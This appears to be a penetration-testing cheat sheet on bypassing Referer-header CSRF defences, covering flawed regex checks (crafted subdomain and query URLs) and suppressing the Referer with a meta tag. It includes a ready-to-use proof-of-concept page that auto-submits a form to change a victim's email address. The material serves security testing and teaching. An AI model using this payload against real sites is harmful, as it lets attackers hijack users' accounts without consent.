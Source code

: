 Some applications make use of the HTTP `Referer` header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain. The following are possible bypasses for the `Referer` header based CSRF protection.

<br/>

**1) Check for Bad Regex**<br/>
Some websites will use regex to check if the website is contained in the referer. This regex could be broken. 

*Subdomain*
```
https://target.com.shelled.io/change_email
```

*Query*
```
https://shelled.io/change_email?target.com
```

<br/>
<br/>

**2) Check for referer Removed**<br/>
Some applications validate the Referer header when it is present in requests but skip the validation if the header is omitted. The following code will drop the referer header.
```
<meta name="referrer" content="never">
```

<br/>

*PoC*
```
<html>
    <body>
        <meta name="referrer" content="never">
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="WfF1szMUHhiokx9AHOfjRkE" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
